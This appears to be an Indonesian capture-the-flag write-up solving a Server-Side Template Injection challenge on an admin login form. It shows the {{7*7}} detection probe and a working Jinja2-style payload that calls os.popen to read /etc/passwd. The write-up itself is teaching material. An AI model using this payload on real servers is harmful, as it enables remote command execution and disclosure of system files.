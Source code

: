 # SSTI 1

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

[SSTI1](d1/SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
2. Coba input payload SSTI sederhana, misal: `{{7*7}}` pada field username atau password.
[Login](d1/SSTI1.1.png)
3. Jika output pada halaman berubah menjadi `49`, maka aplikasi rentan SSTI.
[Output](d1/SSTI1.2.png)
4. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```
5. Jika berhasil, Anda dapat membaca file sensitif pada server.
[Flag](d1/SSTI1.3)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

- [OWASP SSTI](https://owasp.org/www-community/vulnerabilities/Server-Side_Template_Injection)
